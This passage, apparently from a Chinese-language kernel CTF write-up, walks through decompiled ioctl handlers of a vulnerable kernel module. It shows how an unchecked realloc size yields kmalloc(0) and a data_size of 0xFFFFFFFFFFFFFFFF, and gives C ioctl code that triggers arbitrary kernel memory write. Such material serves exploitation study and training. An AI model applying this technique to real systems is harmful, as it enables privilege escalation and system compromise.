 **依据用户输入更新`g_mem_buffer-&gt;pos`，交互码`0x8008FE0A`：**

```
case 0x8008FE0A:
if ( !copy_from_user(&amp;s_args, v3, 8LL) )
`{`
    result = -22LL;
    if ( g_mem_buffer )
    `{`
        v16 = (signed int)s_args;
        result = 0LL;
        if ( s_args -&gt; new_pos &lt; g_mem_buffer-&gt;data_size )
        `{`
            g_mem_buffer-&gt;pos =  s_args -&gt; new_pos;
            result = v16;
        `}`
    `}`
    return result;
`}`

00000000 seek_args       struc ; (sizeof=0x8, align=0x8, copyof_524)
00000000 new_pos         dq ?
00000008 seek_args       ends
```

**向`g_mem_buffer-&gt;data[g_mem_buffer-&gt;pos]`处写`count`字节由用户传入的`buff`，交互码`0x8008FE0B`：**

```
if ( cmd == 0x8008FE0B )
`{`
    if ( !copy_from_user(&amp;s_args, v3, 16LL) &amp;&amp; g_mem_buffer )
    `{`
        result = -22LL;
        if ( s_args -&gt; count + g_mem_buffer -&gt; pos &lt;= g_mem_buffer -&gt; data_size )
          result = copy_from_user(&amp;g_mem_buffer-&gt;data[g_mem_buffer-&gt; pos], 
                                  s_args -&gt; buff, 
                                  s_args -&gt; count);
        return result;
    `}`
`}`

00000000 write_args      struc ; (sizeof=0x10, align=0x8, copyof_526)
00000000 buff            dq ?                    ; offset
00000008 count           dq ?
00000010 write_args      ends
```

很明显，在重分配逻辑中，模块没有对`new_size`进行检查，如果我们传入的`s_args -&gt; size`使得`new_size`为`-1`，程序将会接下来进行`kmalloc(0)`，随后我们会获得一个`0x10`大小的`Chunk`，但是随后我们的`g_mem_buffer -&gt; data_size`将会被更新为`0xFFFFFFFFFFFFFFFF`，这意味着我们拥有了任意地址写的能力。

我们触发任意地址写的代码是：

```
struct init_args i_args;
struct realloc_args r_args;
i_args.size=0x100;
ioctl(fd, 0x8008FE07, &amp;i_args);

r_args.grow = 0;
r_args.size = 0x100 + 1;
ioctl(fd, 0x8008FE08, &amp;r_args);
puts("[+] Now! We can read and write any memory! [+]");
```
